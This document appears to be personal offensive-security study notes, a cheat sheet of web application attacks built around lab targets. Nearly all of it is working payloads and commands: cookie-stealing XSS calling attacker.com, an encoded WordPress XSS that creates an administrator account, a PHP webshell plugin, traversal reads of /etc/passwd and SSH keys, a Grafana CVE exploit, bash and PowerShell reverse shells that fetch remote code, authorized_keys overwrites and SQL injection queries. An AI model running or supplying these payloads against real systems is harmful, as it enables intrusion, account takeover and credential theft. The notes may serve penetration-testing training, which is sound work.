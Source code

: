 
# Web Application Attacks

## API

REST API
json

### old version of API

### postman

## XSS

The most common special characters used for this purpose include:
< > ' " { } ;

```html
<script>alert(1)</script>
<iframe src="https://attacker.com/steal_cookie.php?c="+document.cookie></iframe>
<script>new Image().src="https://attacker.com/steal_cookie.php?c="+document.cookie;</script>

```

### BeEF

```bash
beef-xss
<script src="http://127.0.0.1:3000/hook.js"></script>
```

### WordPress

#### gather nonce

```javascript
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];
```

#### create user

```javascript
var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```

#### JS Compress

<https://jscompress.com/>

#### convert to UTF-16

```javascript
function encode_to_javascript(string) {
            var input = string
            var output = '';
            for(pos = 0; pos < input.length; pos++) {
                output += input.charCodeAt(pos);
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```

#### execute

```bash
curl -i http://offsecwp --user-agent "<script>eval(String.fromCharCode(118,97,114,32,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,44,114,101,113,117,101,115,116,85,82,76,61,34,47,119,112,45,97,100,109,105,110,47,117,115,101,114,45,110,101,119,46,112,104,112,34,44,110,111,110,99,101,82,101,103,101,120,61,47,115,101,114,34,32,118,97,108,117,101,61,34,40,91,94,34,93,42,63,41,34,47,103,59,97,106,97,120,82,101,113,117,101,115,116,46,111,112,101,110,40,34,71,69,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,49,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,41,59,118,97,114,32,110,111,110,99,101,77,97,116,99,104,61,110,111,110,99,101,82,101,103,101,120,46,101,120,101,99,40,97,106,97,120,82,101,113,117,101,115,116,46,114,101,115,112,111,110,115,101,84,101,120,116,41,44,110,111,110,99,101,61,110,111,110,99,101,77,97,116,99,104,91,49,93,44,112,97,114,97,109,115,61,34,97,99,116,105,111,110,61,99,114,101,97,116,101,117,115,101,114,38,95,119,112,110,111,110,99,101,95,99,114,101,97,116,101,45,117,115,101,114,61,34,43,110,111,110,99,101,43,34,38,117,115,101,114,95,108,111,103,105,110,61,97,116,116,97,99,107,101,114,38,101,109,97,105,108,61,97,116,116,97,99,107,101,114,64,111,102,102,115,101,99,46,99,111,109,38,112,97,115,115,49,61,97,116,116,97,99,107,101,114,112,97,115,115,38,112,97,115,115,50,61,97,116,116,97,99,107,101,114,112,97,115,115,38,114,111,108,101,61,97,100,109,105,110,105,115,116,114,97,116,111,114,34,59,40,97,106,97,120,82,101,113,117,101,115,116,61,110,101,119,32,88,77,76,72,116,116,112,82,101,113,117,101,115,116,41,46,111,112,101,110,40,34,80,79,83,84,34,44,114,101,113,117,101,115,116,85,82,76,44,33,48,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,116,82,101,113,117,101,115,116,72,101,97,100,101,114,40,34,67,111,110,116,101,110,116,45,84,121,112,101,34,44,34,97,112,112,108,105,99,97,116,105,111,110,47,120,45,119,119,119,45,102,111,114,109,45,117,114,108,101,110,99,111,100,101,100,34,41,44,97,106,97,120,82,101,113,117,101,115,116,46,115,101,110,100,40,112,97,114,97,109,115,41,59))</script>" --proxy 127.0.0.1:8080
```

#### add plugin

<https://www.jckhmr.net/create-a-wordpress-webshell-plugin/>

```php
<?php
/**
* Plugin Name: WonderfulWebshell
* Plugin URI: https://github.com/jckhmr/wonderfullwebshell
* Description: Wordpress webshell used for demo purposes only
* Version: 1.0
* Author: jckhmr
* Author URI: https://jckhmr.net
* License: https://nosuchlicense
*/

if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
```

#### wpscan

<https://wpscan.com/>

```bash
wpscan --url http://
```

## Directory Traversal

```bash
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../home/offsec/.ssh/id_rsa

chmod 400 id_rsa
ssh offsec@192.168.152.16 -p 2222 -i id_rsa
```

### Grafana

#### CVE-2021-43798

##### linux

<https://www.exploit-db.com/exploits/50581>

```bash
python3 CVE-2021-43798.py -H http://192.168.152.16:3000
Read file > /etc/passwd
```

##### windows

```bash
python3 CVE-2021-43798.py -H http://192.168.152.193:3000 
Read file > \\users\\install.txt

curl --path-as-is http://192.168.152.193:3000/public/plugins/text/..\\..\\..\\..\\..\\..\\..\\..\\Users\\install.txt
curl --path-as-is http://192.168.152.193:3000/public/plugins/text/../../../../../../../../../Users/install.txt
curl --path-as-is http://192.168.152.193:3000/public/plugins/text/../../../../../../../../..\\Users\\install.txt
```

### Apache 2.4.49

```bash
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

## File Inclusion

### LFI

#### User-Agent

```
User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
```

#### reverse shell by GET parameter

```
nc -lvnp 4444

bash -c "bash -i >& /dev/tcp/192.168.45.195/4444 0>&1"

index.php?page=../../../../../../var/log/apache2/access.log&cmd=bash%20%2Dc%20%22bash%20%2Di%20%3E%26%20%2Fdev%2Ftcp%2F192%2E168%2E45%2E195%2F4444%200%3E%261%22
```

### PHP Wrapper

#### php://filter

```
index.php?page=php://filter/resource=admin.php

index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php
```

#### data://

```
index.php?page=data://text/plain,<?php%20echo%20system($_GET["cmd"]);?>

index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls
```

### RFI

```
python3 -m http.server 80

index.php?page=http://192.168.45.235/simple-backdoor.php&cmd=ls
```

## File Upload

### Using Executable Files

### Using Non-Executable Files

```bash
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): fileup
...

cat fileup.pub > authorized_keys

../../../../../../../../root/.ssh/authorized_keys
```

## Command Injection

### found injection symbols

` = %60

`" " ' ; | & && || $ ( )`

<https://gabb4r.gitbook.io/oscp-notes/cheatsheet/command-injection-cheatsheet>

### execute command

```

(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell

(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell

```

```powershell
IEX (New-Object System.Net.Webclient).DownloadString("http://192.168.45.223/powercat.ps1");powercat -c 192.168.45.223 -p 4444 -e powershell

IEX%20(New-Object%20System.Net.Webclient).DownloadString(%22http%3A%2F%2F192.168.45.235%2Fpowercat.ps1%22)%3Bpowercat%20-c%20192.168.45.235%20-p%204444%20-e%20powershell
```

## SQL Injection

### test injection point

```sql
select * from users where username='admin' or 1=1 limit 0,1;#
```

### union based

```sql
select * from users where username='admin' or 1=1 order by 3;#
select * from users where username='admin' union select database(),version(),3;#
union select table_name,2,3 from information_schema.tables where table_schema=dvwa;#
union select column_name,2,3 from information_schema.columns where table_name='users';#
union select username,password,3 from dvwa.users;#
```
